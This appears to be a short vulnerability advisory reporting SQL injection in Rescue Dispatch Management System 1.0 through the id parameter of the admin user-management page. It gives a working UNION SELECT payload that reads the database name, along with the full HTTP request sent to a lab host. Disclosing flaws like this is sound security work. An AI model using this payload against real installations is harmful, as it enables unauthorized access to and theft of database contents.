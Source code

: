 # Rescue Dispatch Management System 1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File: \rdms\admin\?page=user\manage_user&id=

Vulnerability location: /cms/rdms/admin/?page=user/manage_user&id=, id

[+] Payload: ip/rdms/admin/?page=user/manage_user&id=-3%27%20union%20select%201,database(),3,4,5,6,7,8,9,10--+

```sql
GET /rdms/admin/?page=user/manage_user&id=-3%27%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=hkbchcmaitn0d8enhm4jtdjk9q
Connection: close
```

![image](https://user-images.githubusercontent.com/106288109/170442341-96e25eb9-66b0-4bd0-8c45-e4d23cd280cd.png)

![image](https://user-images.githubusercontent.com/106288109/170442083-3988f823-1555-4f50-bcd9-74b953cef85a.png)
